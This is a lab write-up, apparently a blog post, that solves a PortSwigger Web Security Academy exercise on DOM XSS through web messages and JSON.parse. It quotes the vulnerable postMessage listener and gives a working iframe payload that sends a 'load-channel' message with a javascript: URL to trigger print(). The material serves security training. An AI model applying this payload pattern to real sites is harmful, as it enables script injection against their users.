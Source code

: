 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-19T15:22:00Z
modDatetime: 2024-11-19T09:12:47.400Z
title: DOM XSS using web messages and JSON.parse
slug: dom-portswigger-lab-3
featured: false
draft: false
tags:
  - BSCP
  - DOM Based
description:
  This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.   
---
```


## Objective 

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

## Solution 

Look into source of the page, we found the following javascript code 

```js
<script>
    window.addEventListener('message', function (e) {
        // Create an iframe and an ACMEplayer object to manage the iframe
        var iframe = document.createElement('iframe');
        var ACMEplayer = { element: iframe };
        var d;

        // Append the iframe to the document body
        document.body.appendChild(iframe);

        // Attempt to parse the incoming message data as JSON
        try {
            d = JSON.parse(e.data);
        } catch (e) {
            return; // Exit if parsing fails
        }

        // Handle different message types
        switch (d.type) {
            case "page-load":
                // Scroll the ACMEplayer iframe into view
                ACMEplayer.element.scrollIntoView();
                break;

            case "load-channel":
                // Set the iframe's source URL
                ACMEplayer.element.src = d.url;
                break;

            case "player-height-changed":
                // Adjust the iframe's width and height
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;

            default:
                // Ignore unknown message types
                break;
        }
    }, false);
</script>
```

By the look of it, only `load-channel` type is interesting ones.. because we can set the key like `url` set the value to `javascript:print()` and since it will load inside an iframe and executes it 

Constructing all with the following payload,

```html
<iframe src=https://0aff003603b08889806fd08d009600db.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

When the iframe loads, it sends a message with the type `load-channel` to the main page. The event listener parses this message and processes it in a `switch` statement.

For the `load-channel` case, the `url` property from the message is assigned to the `src` of the iframe (`ACMEplayer.element`). If this `url` contains a malicious JavaScript payload, it is executed. Since no origin check is performed and `targetOrigin` is unrestricted (`'*'`), the payload runs when the victim opens the page, triggering the `print()` function.

Now copy paste the payload into exploit server and then just view the exploit on whether the payload works and the payload works where the `print()` function is triggered

![](../../assets/images/bscp/dom/dom-2.png)

Just deliver the exploit to victim and that solves the lab 

![](../../assets/images/bscp/dom/dom-3.png)